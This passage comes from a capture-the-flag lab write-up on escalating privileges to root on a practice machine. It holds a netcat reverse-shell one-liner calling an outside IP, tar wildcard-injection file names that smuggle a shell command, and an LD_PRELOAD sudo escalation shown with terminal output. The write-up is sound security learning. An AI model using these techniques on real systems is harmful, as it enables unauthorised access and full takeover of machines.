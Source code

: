 ```bash
$ echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4445 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh

$ echo "" > "--checkpoint-action=exec=sh /var/www/html/shell.sh"

$ echo "" > --checkpoint=1
```

I launched a netcat listener and ran the backup script. I did not get the reverse shell. When I ran the tar command as webdeveloper, the reverse shell worked. But it failed when called from the backup binary. 

I next tried to create a tar command in the home folder. I hoped to have it used instead of the real tar. But since I was not allowed to change the PATH variable, that also failed. 

I took another look at the sudo permission and saw that part: `env_keep+=LD_PRELOAD`. I searched for what LD_PRELOAD is. It allowed passing shared libraries that would be loaded when the program start. 

I found a [great post on using LD_PRELOAD to escalate privileges](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/). I used the provided code to get root.

```bash
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ vim shell.c
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |  setgid(0);
      |  ^~~~~~
shell.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# whoami
root
# ls /root
root.txt
# cat /root/root.txt
REDACTED
# 
```

I enjoyed this room. I liked that I had to use two different web vulnerabilities to gain the shell. And I learned a new privilege escalation technique with the backup binary. 
